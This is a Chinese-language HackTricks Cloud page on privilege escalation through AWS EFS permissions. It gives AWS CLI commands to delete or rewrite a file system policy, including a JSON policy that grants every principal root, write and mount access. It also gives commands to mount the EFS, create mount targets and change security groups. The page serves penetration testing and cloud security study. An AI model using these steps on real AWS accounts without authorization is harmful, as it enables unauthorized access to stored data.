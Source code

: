 # AWS - EFS Privesc

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## EFS

更多关于 EFS 的 **信息** 在：

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

请记住，为了挂载 EFS，您需要在 EFS 被暴露的子网络中并且有访问权限（安全组）。如果发生这种情况，默认情况下，您将始终能够挂载它，但是，如果它受到 IAM 策略的保护，您需要拥有此处提到的额外权限才能访问它。

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

拥有任何这些权限的攻击者可以 **更改文件系统策略** 以 **授予您访问权限**，或仅仅 **删除它** 以便 **授予默认访问**。

要删除策略：
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
要更改它：
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

拥有此权限的攻击者将能够**挂载 EFS**。如果默认情况下没有给予所有可以挂载 EFS 的人写权限，他将只有**读取访问权限**。
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
额外的权限`elasticfilesystem:ClientRootAccess`和`elasticfilesystem:ClientWrite`可以在文件系统挂载后用于**写入**文件系统内部，并以**root**身份**访问**该文件系统。

**潜在影响：** 通过在文件系统中定位敏感信息进行间接权限提升。

### `elasticfilesystem:CreateMountTarget`

如果攻击者在**子网络**中，且**没有挂载目标**的EFS，他可以利用此权限**在他的子网络中创建一个**：
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**潜在影响：** 通过在文件系统中定位敏感信息进行间接权限提升。

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

在攻击者发现 EFS 在他的子网络中有挂载目标但 **没有安全组允许流量** 的情况下，他可以 **通过更改所选安全组来修改**：
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**潜在影响：** 通过在文件系统中定位敏感信息实现间接权限提升。

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}
